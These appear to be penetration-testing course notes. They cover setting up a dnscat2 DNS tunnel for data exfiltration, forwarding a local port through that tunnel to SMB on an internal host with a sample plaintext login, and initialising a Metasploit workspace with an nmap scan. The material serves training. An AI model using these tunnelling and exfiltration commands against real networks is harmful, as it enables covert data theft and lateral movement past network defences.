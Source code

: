 ### dnscat
We can use dnscat21 to exfiltrate data with DNS subdomain queries and infiltrate data with TXT (and other) records.

on server
```
dnscat2-server feline.corp
```
then need to move client binary to target

Now we'll start interacting with our session from the dnscat2 server. Let's list all the active windows with the windows command, then run window -i from our new "command" shell to list the available commands.
```
windows
window -i 1
?
```

Since we're trying to tunnel in this Module, let's investigate the port forwarding options. We can use listen to set up a listening port on our dnscat2 server, and push TCP traffic through our DNS tunnel, where it will be decapsulated and pushed to a socket we specify. Let's background our console session by pressing C+z. Back in the command session, let's run listen --help.

```
listen --help
```

Let's try to connect to the SMB port on HRSHARES, this time through our DNS tunnel. We'll set up a local port forward, listening on 4455 on the loopback interface of FELINEAUTHORITY, and forwarding to 445 on HRSHARES (done on client machine)

```
listen 127.0.0.1:4455 172.16.2.11:445
```

now we can SMB through DNS server
```
smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
```

## Metasploit
```
sudo msfdb init
sudo systemctl enable postgresql
sudo msfconsole
db_status
help
```
To create a new workspace, we have to provide the workspace name as argument to -a.
```
workspace
workspace -a pen200
```

example nmap scan via msf
```
db_nmap
db_nmap -A 192.168.50.202
hosts
services
```
